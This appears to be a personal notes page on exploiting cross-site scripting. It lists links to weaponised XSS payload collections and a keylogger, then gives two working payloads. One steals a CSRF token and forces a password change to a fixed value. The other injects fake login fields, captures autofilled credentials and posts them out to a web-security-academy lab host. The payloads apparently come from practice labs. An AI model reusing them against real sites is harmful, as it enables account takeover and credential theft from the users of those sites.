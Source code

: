 https://excess-xss.com/
https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
https://github.com/hakluke/weaponised-XSS-payloads
https://www.exploit-db.com/exploits/20009
http://www.xssed.com/xssinfo
https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
https://github.com/JohnHoder/Javascript-Keylogger

##
https://gist.github.com/The-XSS-Rat?direction=asc&sort=updated
##

##
https://trustedsec.com/blog/chaining-vulnerabilities-to-exploit-post-based-reflected-xss
##


```
<script>
var x = new XMLHttpRequest();
x.open("GET", "/lk", true);
x.onreadystatechange = function() {
    if (x.readyState == XMLHttpRequest.DONE) {
        text = x.responseText;
        text = text.substr(text.indexOf('invisible">') + 'invisible">'.length);
        csrf = text.substr(0, text.indexOf('</p>'));
        newdata = JSON.stringify({'new_password':'QWERTYqwerty1',confirm_password:'QWERTYqwerty1','token':csrf});
        y = new XMLHttpRequest();
        y.open("POST", "/change_password", true);
        y.setRequestHeader("Content-type", "application/json");
        y.send(newdata);
    }
};
x.send(null);
</script>
```

```
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```
